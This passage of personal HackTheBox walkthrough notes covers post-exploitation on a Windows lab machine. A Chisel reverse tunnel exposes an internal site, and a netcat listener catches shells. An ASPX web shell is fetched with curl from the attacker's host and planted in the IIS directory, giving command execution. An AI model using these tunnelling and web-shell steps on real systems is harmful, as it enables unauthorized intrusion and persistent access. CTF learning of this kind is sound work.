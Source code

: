 On remote box, set up the Chisel client

```
./chisel.exe client 10.10.14.10:8001 R:8002:127.0.0.1:8000
```
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609105949.png]]

Then on Kali run
```
curl localhost:8002
```

And get the html of the remote site 
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609194948.png]]

### FROM THE TOP WITH CHISEL

Getting two shells as c.bum 

```
rlwrap nc -lvnp 9001
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609195242.png]]
- one for chisel client
- one to drop files 

#### Re-run chisel command 
```
./chisel.exe client 10.10.14.10:8001 R:8002:127.0.0.1:8000
```


#### Drop aspx reverse shell

Navigate to `C:\inetpub\development` in shell 

Grab `/usr/share/kaudanum/aspx/shell.aspx`

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609195602.png]]

```
curl http://10.10.14.10:8000/shell.aspx -o shell.aspx
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609195718.png]]

Then in a browser navigate to 
`localhost:8002/shell.aspx`

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609195810.png]]

We have command execution as this defaultapppool user 

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250609195853.png]]
